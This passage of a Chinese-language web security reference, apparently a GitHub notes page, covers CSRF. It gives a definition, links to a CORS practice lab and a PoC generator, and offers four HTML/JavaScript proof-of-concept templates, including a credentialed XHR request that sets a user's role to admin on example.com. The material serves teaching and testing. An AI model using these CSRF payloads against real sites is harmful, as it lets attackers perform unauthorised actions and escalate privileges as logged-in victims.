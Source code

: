 **相关靶场**
- [incredibleindishell/CORS_vulnerable_Lab-Without_Database](https://github.com/incredibleindishell/CORS_vulnerable_Lab-Without_Database)

---

### CSRF

**描述**

跨站请求伪造（Cross-Site Request Forgery，CSRF）是一种使已登录用户在不知情的情况下执行某种动作的攻击。因为攻击者看不到伪造请求的响应结果，所以 CSRF 攻击主要用来执行动作，而非窃取用户数据。当受害者是一个普通用户时，CSRF 可以实现在其不知情的情况下转移用户资金、发送邮件等操作；但是如果受害者是一个具有管理员权限的用户时 CSRF 则可能威胁到整个 Web 系统的安全。

**相关文章**
- [CSRF 漏洞的末日？关于 Cookie SameSite 那些你不得不知道的事](https://mp.weixin.qq.com/s/YqSxIvbgq1DkAlUL5rBtqA)

**相关工具**
- [merttasci/csrf-poc-generator](https://github.com/merttasci/csrf-poc-generator) - This HTML file creates a CSRF PoC form to any HTTP request.

**验证方法**

- GET
    ```html
    <a href="http://www.example.com/api/setusername?username=uname">Click Me</a>
    ```

- POST
    ```html
    <form action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
    <input name="username" type="hidden" value="uname" />
    <input type="submit" value="Submit Request" />
    </form>
    ```

- JSON GET
    ```html
    <script>
    var xhr = new XMLHttpRequest();
    xhr.open("GET", "http://www.example.com/api/currentuser");
    xhr.send();
    </script>
    ```

- JSON POST
    ```html
    <script>
    var xhr = new XMLHttpRequest();
    xhr.open("POST", "http://www.example.com/api/setrole");
    xhr.withCredentials = true;
    xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
    xhr.send('{"role":admin}');
    </script>
    ```
